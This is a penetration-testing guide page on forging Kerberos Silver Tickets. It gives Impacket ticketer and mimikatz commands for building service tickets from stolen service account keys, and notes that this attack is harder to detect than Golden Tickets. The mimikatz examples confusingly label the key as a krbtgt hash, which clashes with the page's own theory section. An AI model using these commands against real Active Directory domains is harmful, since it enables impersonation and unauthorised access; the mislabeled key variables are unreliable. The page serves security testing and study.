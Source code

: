 # Silver tickets

## Theory

The long-term key of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](broken-reference) to access that service. In a Silver Ticket scenario, an attacker will forge a Service Ticket containing a PAC that features arbitrary information about the requesting user, effectively granting lots of access.

## Practice

{% hint style="info" %}
When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.
{% endhint %}

In order to craft a silver ticket, testers need to find the target service account's RC4 key (i.e. NT hash) or AES key (128 or 256 bits). This can be done by [capturing an NTLM response](../../ntlm/capture.md) (preferably NTLMv1) and [cracking](../../credentials/cracking.md) it, by [dumping LSA secrets](broken-reference), by doing a [DCSync](../../../../redteam/credentials/os-credentials/windows-and-active-directory/dcsync.md), etc.

_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." (_[_adsecurity.org_](https://adsecurity.org/?p=2011)_)_

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket with [`kerberos::golden`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden). Testers need to carefully choose the right SPN type (cifs, http, ldap, host, rpcss) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](broken-reference).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
A great, stealthier, alternative is to [abuse S4U2self](../delegations/s4u2self-abuse.md) in order to impersonate a domain user with local admin privileges on the target machine by relying on Kerberos delegation instead of forging everything.
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=2011" %}

